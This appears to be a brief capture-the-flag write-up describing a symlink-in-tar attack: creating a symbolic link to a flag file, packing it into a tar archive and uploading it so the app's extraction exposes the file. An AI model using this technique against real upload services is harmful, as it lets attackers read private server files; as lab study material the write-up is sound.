 first you create a symlink pointing to your flag location
`ln -s /etc/ctf/flag.txt malicious_link.txt`

then you create a tar archive 
`tar -cvf exploit.tar malicious_link.txt`

you will then upload the tar to the app , it will be extracted and you will get your file pointing to the real flag
